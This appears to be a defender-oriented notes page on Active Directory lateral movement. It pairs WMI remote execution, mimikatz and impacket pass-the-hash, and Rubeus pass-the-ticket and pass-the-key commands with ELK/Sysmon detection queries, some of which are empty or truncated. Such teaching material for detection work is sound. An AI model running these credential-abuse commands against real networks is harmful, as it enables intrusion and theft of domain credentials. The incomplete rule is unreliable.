

# Domain Lateral Movement

* **PowerShell Remoting (WMI and WinRM)**
* **PsExec**
* **Pass the Hash**
* **Pass the Ticket**
* **Pass-The-Key (Over Pass-The-Hash)**

***

## Windows Management Instrumentation (**WMI)**

* **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
* **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

1. create a PSCredential object

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

<figure><figcaption></figcaption></figure>

1. establish a WMI session and store the session on the $Session variable

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

<figure><figcaption></figcaption></figure>

#### **Remote Process Creation Using WMI**

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

<figure><figcaption></figcaption></figure>

#### Detection Rule(Sysmon)

```kql
event.code:"1" and
winlog.provider_name:"Microsoft-Windows-Sysmon" and
winlog.event_data.Image:(*\\WmiPrvSE.exe or *\\wmiprvse.exe)
```

<figure><figcaption></figcaption></figure>

***

## [**PsExec**](../../cyberspace/active-directory-for-soc/detecting-ad-lateral-movement/psexec.md)

***

## **Pass the Hash**

#### mimikatz

```shellscript
sekurlsa::pth /user:abdo.gaber /rc4:526143b7bd97a36062b17dd318cc222d /domain:demo.loac /run:cmd.exe
```

<figure><figcaption></figcaption></figure>

Detection Rule ELK

```kql
event.code:"1" AND
message:"sekurlsa" AND
message:"rc4" AND
```

<figure><figcaption></figcaption></figure>

#### impacket-psexec

```shellscript
impacket-psexec administrator@192.168.1.80 -hashes :526143b7bd97a36062b17dd318cc222d
```

<figure><figcaption></figcaption></figure>

Detection Rule ELK

```shellscript
event.code:"4624" AND
winlog.event_data.LmPackageName : "NTLM V2"
```

<figure><figcaption></figcaption></figure>

***

## Pass the Ticket <a href="#r26a" id="r26a"></a>

#### Pass the Ticket <a href="#r26a" id="r26a"></a>

1. Dump ticket

```shellscript
Rubeus.exe dump /nowrap
```

<figure><figcaption></figcaption></figure>

2. ​inject ticket

```shellscript
Rubeus.exe ptt /ticket:<"base64 of ticket">
```

<figure><figcaption></figcaption></figure>

#### Detection in ELK

<figure><figcaption></figcaption></figure>

***

## **Pass-The-Key**

1. Use Kerberos Key to generate Kerberos TGT

```shellscript
Rubeus.exe asktgt /user:administrator /rc4:526143B7BD97A36062B17DD318CC222D /ptt
```

<figure><figcaption></figcaption></figure>

#### Detection in ELK

<figure><figcaption></figcaption></figure>
